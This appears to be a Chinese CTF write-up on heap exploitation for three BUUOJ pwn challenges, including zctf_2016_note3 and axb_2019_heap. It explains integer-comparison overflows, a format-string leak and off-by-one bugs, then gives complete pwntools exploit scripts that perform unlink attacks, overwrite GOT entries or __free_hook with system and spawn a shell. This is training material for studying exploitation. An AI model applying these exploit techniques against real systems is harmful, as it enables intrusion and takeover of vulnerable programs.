


漏洞点在这里,在比较的时候，拿了无符号数和有符号数做比较，程序会自动将其转化为无符号数来判断，也就是a2我们输入成0，那就是-1>i，把-1转化成无符号数0xffffffff。因此输入的内容就成了0xffffffff字节的数据。毫无疑问这里存在了溢出。

不过由于输入的是0，因此malloc申请chunk的时候，自然就申请了0x20字节的chunk（0x10的chunk头，0x10的最小用户空间）

为什么要先提这里，难道edit函数不存在溢出漏洞么？下面分析一下。




这里就要了个索引，然后就可以往里面输入数据了，最多能输入144字节的数据。似乎只要申请一个小点的chunk，用edit也能溢出，然后unlink。

但是有一个地方要注意到，edit函数确实可以溢出，但是会被00截断，因为下面strlen函数。




这里似乎看的是将输入的数据中%去除掉，但是在遍历的时候，用了strlen来判断字符串的结尾，因此输入数据如果出现了p64打包的字节流，就会将strlen截断，从而拷贝数据失败。

因此想通过溢出来进行unlink，还要通过add函数的溢出。

#### 大致思路

先申请三个chunk，第一个大小无所谓，让它来存放fake_chunk，然后第二个chunk的大小要为0，因为要溢出它，但是由于用户空间只有0x10，所以只能将fake_chunk布置到低地址的那个chunk（就是第一个chunk），然后利用溢出，修改第三个chunk的prev_size和size，充当引线堆块。引线堆块的大小没的说，要大于0x80,因为不能让它free掉的时候进入到fastbin里面。

剩下的就是常规unlink的操作了，将引线堆块释放掉，然后fake_chunk的地址被放到了bss段上。edit编辑bss段上存放的chunk信息，然后进行泄露函数真实地址和篡改got表的操作，最终获取shell。

以这道题为例，指的一提的是unlink要通过检查 就要伪造&fake_chunk-0x18 和 &fake_chunk-0x10 而bss段放的是chunk的用户地址（这个用户地址也就是正常情况下fake_chunk所处的地址)，所以chunk 1的地址下面的内容最开始就要是伪造的&fake_chunk-0x18 和 &fake_chunk-0x10，而不能将fake_chunk放到其他位置。

#### EXP：

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```python
from tools import *
p,e,libc=load("a")
#p=remote('node4.buuoj.cn',27755)
#debug(p,0x400F4F)

def show(index):
    p.recvuntil('option--->>\n')
    p.sendline('2')
    p.recvuntil('Input the id of the note:\n')
    p.sendline(str(index))

def add(lenth,content):
    p.recvuntil('option--->>\n')
    p.sendline('1')
    p.recvuntil('Input the length of the note content:(less than 128)\n')
    p.sendline(str(lenth))
    p.recvuntil('Input the note content:\n')
    p.sendline(content)

def edit(index,choice,content):
    p.recvuntil('option--->>\n')
    p.sendline('3')
    p.recvuntil('Input the id of the note:\n')
    p.sendline(str(index))
    p.recvuntil('do you want to overwrite or append?[1.overwrite/2.append]\n')
    p.sendline(str(choice))
    p.recvuntil('TheNewContents:')
    p.sendline(content)

def delete(index):
    p.recvuntil('option--->>\n')
    p.sendline('4')
    p.recvuntil('Input the id of the note:\n')
    p.sendline(str(index))
p.sendline('a')
p.sendline('a')
ptr=0x602120
fake_chunk=p64(0)+p64(0x71)
fake_chunk+=p64(ptr-0x18)+p64(ptr-0x10)

payload=b'a'*0x10+p64(0x70)+p64(0x90)
add(0x50,fake_chunk)
add(0x0,b'aaa')
add(0x80,b'ddddd')
delete(1)
add(0,payload)
delete(2)

atoi_got_addr=e.got['atoi']
payload=b'a'*0x18+p64(atoi_got_addr)
edit(0,1,payload)#前面是垃圾数据（非0）后面只有这一个地址，因此地址中的00被截断了，也不影响数据本身
show(0)
atoi_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
log('atoi',hex(atoi_addr))
sys_addr,bin_sh_addr=local_search('atoi',atoi_addr,libc)
#sys_addr,bin_sh_addr=long_search('atoi',atoi_addr)
edit(0,1,p64(sys_addr))
p.sendline('/bin/sh\x00')
p.interactive()
```

### zctf_2016_note3

#### 保护策略：




#### 程序分析：




漏洞和note2一样，依旧拿着int类型和unsigned int类型作比较，导致-1可以变成一个很大的整数，从而导致输入产生了溢出。

然后这道题的show函数，无法使用，就导致了泄露不是那么舒服。

#### 大致思路

然后常规unlink的手段，跟note2的手法一样，就不再赘述。

unlink之后，要泄露函数的真实地址。先将free函数的got表改为puts的plt地址，然后再把bss段存放的chunk地址改成puts的got地址，执行free进行泄露。需要注意的是输入的数据最后会被加上00，这道题free的got表和puts的got表是挨着的，如果把p64打包的数据给free后，最后加上的00会覆盖puts的真实的最低字节。导致puts无法正常使用，程序会崩溃。

因此发送p64打包的地址时，需要用切片处理一下，发送7个字节即可，加上\n八字节，然后程序会将\n换成00，因此不会干扰到puts的真实地址。

[tools源码]((https://www.cnblogs.com/ZIKH26/articles/16307343.html))

#### EXP

```python
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',27797)
#debug(p,0x400BB9)

def add(lenth,content):
    p.recvuntil('option--->>\n')
    p.sendline('1')
    p.recvuntil('Input the length of the note content:(less than 1024)\n')
    p.sendline(str(lenth))
    p.recvuntil('Input the note content:\n')
    p.sendline(content)

def edit(index,content):
    p.recvuntil('option--->>\n')
    p.sendline('3')
    p.recvuntil('Input the id of the note:\n')
    p.sendline(str(index))
    p.recvuntil('Input the new content:\n')
    p.sendline(content)

def delete(index):    
    p.recvuntil('option--->>\n')
    p.sendline('4')
    p.recvuntil('Input the id of the note:\n')
    p.sendline(str(index))

ptr=0x6020C8
fake_chunk=p64(0)+p64(0x61)
fake_chunk+=p64(ptr-0x18)+p64(ptr-0x10)
add(0x40,fake_chunk)
payload=p64(0)*2+p64(0x60)+p64(0x90)#fake_chunk
add(0x0,'1')#overflow_chunk
add(0x80,b'/bin/sh\x00')#lead_chunk
add(0x70,'/bin/sh\x00')#par_chunk
delete(1)
add(0x0,payload)
delete(2)
free_got_addr=e.got['free']
puts_got_addr=e.got['puts']
puts_plt_addr=e.plt['puts']
payload=p64(0)*3+p64(free_got_addr)+p64(puts_got_addr)
edit(0,payload)
payload=p64(puts_plt_addr)[:7]
edit(0,payload)
delete(1)
puts_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
log('puts_addr',hex(puts_addr))
sys_addr,bin_sh_addr=long_search('puts',puts_addr)
edit(0,p64(sys_addr)[:7])
delete(3)
p.interactive()
```


### axb_2019_heap

#### 保护策略：



#### 漏洞所在：



banner函数里面存在一个格式化字符串漏洞，根据以往的经验，通常堆+格式化字符串漏洞的题目中，格式化字符串漏洞都起到一个泄露地址的作用。因为存在这个漏洞，所以我们就相当于有了libc基地址，程序基地址。



get_input函数中存在一个off_by_one漏洞。由于我们有程序基地址，所以就能拿到bss段上存储chunk信息的地址，就可以打unlink(这道题我最开始考虑的是off by one+double free+fastbin attack，不过在构造的时候想起来了，这道题释放的堆块进入不到fastbin中)

#### EXP:

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

整体来说就是一个格式化字符串泄露地址+unlink 比较简单，这里我就直接放exp了。

```py
from tools import *
p,e,libc= load("a")
p=remote('node4.buuoj.cn',28336)
context.arch='amd64'
context.log_level='debug'
d_a=0x11A8
d_d=0x11ba
d_e=0x11e0
def add(index,size,content):
    p.sendlineafter('>> ',str(1))
    p.sendlineafter('Enter the index you want to create (0-10):',str(index))
    p.sendlineafter('Enter a size:\n',str(size))
    p.sendlineafter('Enter the content: \n',content)
    p.recvuntil('Done!\n')
    
def edit(index,content):
    p.sendlineafter('>> ',str(4))
    p.sendlineafter('Enter an index:\n',str(index))
    p.sendlineafter('Enter the content: \n',content)
    p.recvuntil('Done!\n')

def delete(index):
    p.sendlineafter('>> ',str(2))
    p.sendlineafter('Enter an index:\n',str(index))
    #p.recvuntil('Done!\n')
#debug(p,'pie',d_e,d_a,d_d)
p.sendlineafter('Enter your name: ',b'%15$p%14$p')
p.recvuntil('Hello, ')
leak_libc_addr=int(p.recv(14),16)
log_addr('leak_libc_addr')
libc_base_addr=leak_libc_addr-0x20830
log_addr('libc_base_addr')
base_addr=int(p.recv(14),16)-0x1200
log_addr('base_addr')
ptr=base_addr+0x202070
add(0,0x98,'aaaabbbb')
add(1,0x98,'ccccdddd')
add(2,0x98,'eeeeffff')
add(3,0x98,'/bin/sh\x00')
delete(0)
fake_chunk=p64(0)+p64(0x90)
fake_chunk+=p64(ptr-0x18)+p64(ptr-0x10)

edit(1,fake_chunk+0x70*b'a'+p64(0x90)+b'\xa0')
delete(2)
free_hook=libc_base_addr+0x3c67a8 
sys_addr=libc_base_addr+0x0000000000045390
edit(1,b'a'*8+p64(free_hook)+p64(0x20))
edit(0,p64(sys_addr))
delete(3)
p.interactive()
```

